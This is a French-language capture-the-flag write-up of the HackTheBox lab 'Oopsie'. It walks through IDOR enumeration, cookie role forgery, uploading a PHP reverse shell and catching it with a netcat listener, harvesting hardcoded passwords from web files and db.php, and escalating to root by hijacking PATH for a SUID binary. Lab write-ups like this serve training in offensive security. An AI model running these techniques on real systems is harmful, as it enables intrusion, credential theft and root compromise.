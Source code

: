 ## Lab Title: Oopsie
- Date: 2025-09-24
- Duration: ~120 minutes

### Platform: HTB – Starting Point > Tier 2o

### 1. Scenario Summary
1. Le site web avec `disclosure vulnerabilité` >> la modification de `cookie`
2. `Lateral Movement` avec l'utilisateur et chercher son groupe et trouver le binaire avec **SUID** privilège.
3. Tout le monde peut exécuter ce binaire avec les privilèges du `propriétaire` (souvent: root)
4. La vulnerabilité avec le programme: `cat` sans chemin absolu est exploité.
5. Voilà

### 2. Findings
1. Pour intercepter le `trafic Web` , on peut utiliser l'outil: `Proxy` de `Burp Suite`

**Utilisant Web Proxies:**
2. Pour ça, j'ai utilisé l'outil: `gobuster` mais pas efficace:
    - `gobuster dir -u http://$ip -w /usr/share/seclists/.... -x txt,php -o output_file`

    - J'ai dû utiliser l'autre methode:
        - La configuration propre de `Proxy` dans `Firefox`: `127.0.0.1` et port `8080`
        - Pour cette connexion, j'ai utilisé `Burp Suite` pour analyser tous les trafics
        - Désactiver l'interception dans `Burp Suite`
        - J'ai trouvé l'information interresantes: sous le colonne: **Target**:
            - `/cdn-cgi/login/script.js`  >> La page de `Login`
    - **Il y a Uploads** page: c'est intéressant pour nous
    - Pour avoir l'accès au **Uploads** >> on a besoin de privilèges d' `Super Admin`:

3. Le **cookie** >> Les données de l'utilisateur stockées par le `serveur Web` dans le `Browser`
    - Dans le Browser `Mozilla Firefox`, c'est possible de voir et modifier les `cookies` avec `les outils de Développeur`
    - `Right Click` >> choisir `Inspect (Q)` dans la certaine page.
    - `Storage` où les cookies sont stockées

4. On a trouvé que: on peut faire l'enumeration avec `id`
    - `http://10.129.54.230/cdn-cgi/login/admin.php?content=accounts&id=2` >> rien
    - `http://10.129.54.230/cdn-cgi/login/admin.php?content=accounts&id=1` >> **les données d'Admin**
    ```code
        Access ID	Name	Email
            34322	admin	admin@megacorp.com
    ```
    - Après, j'ai changé les info dans le `cookie`: `role >> admin` et `user >> 34322`
    - Maintenant, on a les privilèges de l'Admin: et on peut faire `uploads`

**Foothold:**
5. On doit préparer le fichier: `php reverse shell` qu'on peut trouver `/usr/share/webshells`
    - On sélectionne: `php-reverse-shell.php` >> ici on a changé l'IP et port de mon machine.
    - Après, on a téléchargé ce fichier
    - Alors, maintenant, on doit savoir où est le fichier exactement

    - Pour ça, on doit utiliser l'outil: `gobuster`:
        - `gobuster dir -u http://10.129.54.230 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php`
        - L'outil: `gobuster` a montré qu'il y a un dossier: **/uploads** >> c'est confirmé

6. Quand, on a essayé d'ouvrir la page: `http://10.129.54.230/uploads` >> c'est interdit pour nous
    - Maintenant, on fait: `nc -lvnp 5642` pour son `php-reverse-shell.php` >> **NetCat Listener**
    - Pour faire une demande, on utilise: `http://$ip/uploads/php-reverse-shell.php`
    - On a obtenu le `reverse shell`  >> pour obtenir le meilleur shell >> on fait: `python3 -c 'import.pty;pty.spawn("/bin/bash")`

**Lateral Movement:**
7. Quand on exécuté `whoami` >> on a trouvé que: l'utilisateur: `www-data` >> ce ne suffit pas pour nous pour faire beacoup de choses:
    - Dans cet emplacement: `/var/www/html/cdi-cgn/login` on a trouvé les fichier et donc on doir rechercher l'autre `passwords`:
        - `cat * | grep -i passw*`
        ```code
            if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
            <input type="password" name="password" placeholder="Password" />
        ```
        - On a trouvé le mot de passe: `MEGACORP_4dm1n!!`
    - Pour trouver quelqu'un l'utilisateur: on a vérifié `/etc/passwd` >> on a trouvé l'utilisateur: `robert`
    - Mais, le mot de passe: `MEGACORP_4dm1n!!` n'est pas le sien, `robert`

    - Quand, on a vérifié `db.php` >> on a trouvé:
    ```code
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
    ```
    - Voilà, le mot de passe:`M3g4C0rpUs3r!` pour l'utilisateur: `robert`

**Privelege Escalation:**
8. Quand on a vérifié: `id`: on a trouvé que: l'utilisateur `robert` est une partie du group: `bugtracker`
    - Après, on doit faire quelque de chose: `find / -group bugtracker 2>/dev/null`
        - Avec cette commande >> on analysé si'il y quelque `binary` dans ce group: `bugtracker`
        - Et on a trouvé cela: `/usr/bin/bugtracker`
        - On doit vérifier les privilèges de ce binary: `ls -la`
            - `-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker`
            - Il a **s** drapeau: **setuid >> SUID** >> ça veut dire que le propriétaire du fichier peut exécuter:
            - Le propriétaire est `root`

9. SUID >> `Set Owner User ID`

10. `cat` >> binary est utilisé mais n'est pas specifié, donc on peut changer son comportement
    - On a créé le `cat` dans le `tmp` dossier `/tmp/cat` >> son contenu est `/bin/sh` >> faire le executable: `chmod +x cat`
    - `export PATH=/tmp:$PATH` >> mettre a jour >> `$PATH`

11. Pour `user flag` >> `/home/robert/user.txt` >> Voilà

12. On a exécuté la commande d'emplacement: `/tmp`: `bugtracker` >> Voilà >> on a obtenu les privilèges de l'utilisateur: `root`
    - Le drapeau est dans `/root` >> `root.txt`

## 3. Idea
- Le binary `cat` est utilisé:
    ```code
        Un binaire SUID s’exécute avec les droits de son propriétaire (souvent root).
        S’il appelle `cat` sans chemin absolu, l’OS le cherche dans `$PATH`.
        En plaçant dans `/tmp` un `cat` malveillant qui lance `/bin/sh` et en mettant `/tmp` en tête de `$PATH`,
        le SUID exécute ce `cat` — et donc ouvre un shell avec les droits root.
    ```
- Voilà, ça y est, c'est fini: `https://labs.hackthebox.com/achievement/machine/2118023/288`
